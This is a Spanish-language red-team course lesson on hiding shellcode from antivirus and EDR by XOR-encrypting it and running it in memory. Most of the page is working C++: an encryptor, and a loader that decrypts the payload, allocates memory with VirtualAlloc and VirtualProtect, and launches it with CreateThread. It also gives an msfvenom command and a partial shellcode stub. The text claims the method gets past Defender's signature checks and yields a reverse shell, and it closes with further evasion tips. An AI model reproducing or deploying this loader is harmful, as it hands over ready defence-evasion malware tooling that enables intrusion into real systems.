 ## Introducción

Al implementar o ejecutar shellcode en un entorno monitoreado, el principal desafío es evitar la detección estática y de comportamiento mediante soluciones de seguridad como software antivirus y sistemas de detección y respuesta de puntos finales (EDR).

**Cifrado XOR** es una de las técnicas de ofuscación más simples pero aún efectivas. Transforma cada byte de una carga útil mediante una operación matemática reversible: XOR con una clave. Cuando se usa correctamente, evita la detección basada en patrones de bytes, cadenas o firmas conocidas comúnmente monitoreadas en shellcode o blobs binarios.

Este enfoque es eficaz contra el análisis estático, aunque los motores de comportamiento modernos aún pueden detectar asignaciones de memoria y comportamientos de ejecución sospechosos. Aún así, XOR sigue siendo una capa fundamental en los flujos de trabajo de ofuscación.

---

## [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-how-xor-encryption-works)Cómo funciona el cifrado XOR

XOR (OR exclusivo) aplica una clave a cada byte del shellcode. Dado que XOR es simétrico, la misma operación con la misma clave puede **encriptar** y **descifrar** Los datos. Por ejemplo:

```
EncryptedByte = OriginalByte XOR KeyByte
OriginalByte  = EncryptedByte XOR KeyByte
```

Usando una tecla repetida como `"redteamexercises"`, puede ofuscar toda la carga útil manteniendo una sobrecarga mínima y compatibilidad con shellcode.

---

## [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-workflow)Flujo de trabajo

![](https://images.coursestack.com/96e8cffc-ac6e-4605-b7e1-39c6c26bd2e8/ddd1b121-f035-4da4-ab5c-4d53134c6f13)

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-1--generate-shellcode)Figura 1 – Generar código Shell

Shellcode se puede generar utilizando herramientas como `msfvenom`, `Donut`, o cualquier generador de carga útil personalizado. Por ejemplo:

```bash
msfvenom -p windows/x64/messagebox TEXT="Hello" -f c
```

Alternativamente, puede utilizar su propio marco C2 para generar el shellcode.

---

![](https://images.coursestack.com/96e8cffc-ac6e-4605-b7e1-39c6c26bd2e8/f27f888c-03fc-4e89-96ce-ecb74d6bb400)

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-2--encrypting-shellcode-with-encryptorcpp)Figura 2 – Cifrado de Shellcode con `encryptor.cpp`

Este programa:

- Toma un búfer de código shell sin procesar.
- Aplica el cifrado XOR mediante una clave (`"redteamexercises"`).
- Genera uno nuevo `.h` archivo que contiene el shellcode cifrado y su tamaño.

#### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-encryptorcpp)`encryptor.cpp`:

```cpp
#include <iostream>
#include <fstream>
#include <vector>
#include <string>

// XOR encryption key
const std::string key = "redteamexercises";

// Raw shellcode
unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
                            "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52";

const size_t shellcode_size = sizeof(shellcode);

// XOR encryption function
void xor_encrypt(std::vector<unsigned char>& data, const std::string& key) {
    for (size_t i = 0; i < data.size(); i++) {
        data[i] ^= key[i % key.size()];
    }
}

int main() {
    std::vector<unsigned char> encrypted(shellcode, shellcode + shellcode_size);
    xor_encrypt(encrypted, key);

    std::ofstream output("encrypted_shellcode.h");
    output << "#pragma once\n";
    output << "unsigned char encrypted_shellcode[] = {";
    for (size_t i = 0; i < encrypted.size(); i++) {
        output << "0x" << std::hex << (int)encrypted[i];
        if (i != encrypted.size() - 1) output << ", ";
    }
    output << "};\n";
    output << "const size_t shellcode_size = " << encrypted.size() << ";\n";
    std::cout << "[+] Encrypted shellcode saved to encrypted_shellcode.h\n";
    return 0;
}
```

---

![](https://images.coursestack.com/96e8cffc-ac6e-4605-b7e1-39c6c26bd2e8/db3c0e2b-32a5-4249-a235-deeea258c580)

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-3--run-the-encryptor)Figura 3 – Ejecute el cifrador

Compilar y ejecutar `encryptor.cpp` generar `encrypted_shellcode.h`:

---

![](https://images.coursestack.com/96e8cffc-ac6e-4605-b7e1-39c6c26bd2e8/761d7484-3ff1-4150-9256-0d1592ca6636)

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-4--executing-the-shellcode-with-runnercpp)Figura 4 – Ejecución del Shellcode con `runner.cpp`

El corredor:

- Incluye la carga útil cifrada.
- Lo descifra en la memoria usando la misma clave.
- Asigna memoria ejecutable.
- Ejecuta el shellcode a través de `CreateThread`.

#### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-runnercpp)`runner.cpp`:

```cpp
#include <windows.h>
#include <iostream>
#include "encrypted_shellcode.h" // Include generated header

const std::string key = "redteamexercises";

// Decryption logic
void xor_decrypt(unsigned char* data, size_t size, const std::string& key) {
    for (size_t i = 0; i < size; i++) {
        data[i] ^= key[i % key.size()];
    }
}

int main() {
    std::cout << "[+] Starting shellcode decryption and execution...\n";

    xor_decrypt(encrypted_shellcode, shellcode_size, key);

    void* exec_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!exec_mem) {
        std::cerr << "[-] Memory allocation failed\n";
        return 1;
    }

    memcpy(exec_mem, encrypted_shellcode, shellcode_size);

    DWORD oldProtect;
    if (!VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect)) {
        std::cerr << "[-] Failed to change memory permissions\n";
        return 1;
    }

    HANDLE hThread = CreateThread(nullptr, 0, (LPTHREAD_START_ROUTINE)exec_mem, nullptr, 0, nullptr);
    if (!hThread) {
        std::cerr << "[-] Thread creation failed\n";
        return 1;
    }

    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

---

![](https://images.coursestack.com/96e8cffc-ac6e-4605-b7e1-39c6c26bd2e8/48598b74-ab01-4c50-af7d-eedbe083dbe9)

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-5--running-on-windows-10-with-defender-enabled)Figura 5 – Ejecutándose en Windows 10 con Defender habilitado

Cuando el shellcode se ofusca y se ejecuta en la memoria sin tocar el disco y sin importar API peligrosas directamente en el IAT, puede eludir las firmas básicas de Defender (aunque los EDR avanzados con detección heurística aún pueden alertar).

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-figure-6--reverse-shell-established)Figura 6 – Carcasa inversa establecida

Una vez ejecutado el shellcode, debes observar el comportamiento esperado, ya sea que genere un shell inverso, un cuadro de mensaje u otra acción de carga útil.

---

## [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/shellcode-encryption-with-xor-and-execution-in-memory#user-content-conclusion)Conclusión

La codificación XOR es un método de ofuscación fundamental. Es útil contra **AV basados en firmas**, pero ofrece una protección limitada contra **heurísticas o EDR conductuales**.

Para una mejor protección:

- Combine XOR con polimorfismo (cifrado aleatorio).
- Ofuscar la rutina de descifrado.
- Retrasar el descifrado o organizarlo en fragmentos.
- Utilice cargadores de regiones basados en pila o RWX.
- Mezcle hash de API y syscall stubs para evitar rastros de API de Windows.